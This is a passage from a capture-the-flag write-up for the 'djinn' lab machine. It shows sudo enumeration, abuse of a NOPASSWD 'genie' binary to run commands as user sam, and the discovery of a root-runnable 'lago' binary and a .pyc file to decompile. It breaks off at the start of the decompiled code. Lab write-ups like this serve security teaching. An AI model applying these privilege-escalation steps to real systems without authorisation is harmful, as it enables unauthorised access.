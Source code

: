 User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
```
I tried some stuff with the binary and I can't do anything with that.

![Untitled](/img/djinn1/9.png)

After sometime I checked if there is any ``man`` available for ``genie``. -h flag actually just for quick usage of the command.

![Untitled](/img/djinn1/10.png)

```
nitish@djinn:~$ sudo -u sam /usr/bin/genie -cmd id
my man!!
$ whoami
sam
```

## Privilege Escalation to Root:

```
$ sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago

```
Another binary ``lago`` which can be executed as ``root`` without the password

It Looks like some sort of game.

![Untitled](/img/djinn1/12.png)

Later I checked ``sam`` directory and found ``.pyc`` file. I downloaded to my machine using python server.

![Untitled](/img/djinn1/11.png)
>pyc contain the compiled bytecode of Python source files.

There is a tool which helps to decomplie the python script for us.
>https://github.com/Mysterie/uncompyle2

```
# 2020.03.24 13:56:25 IST
# Embedded file name: /home/mzfr/scripts/exp.py
from getpass import getuser
from os import system
from random import randint
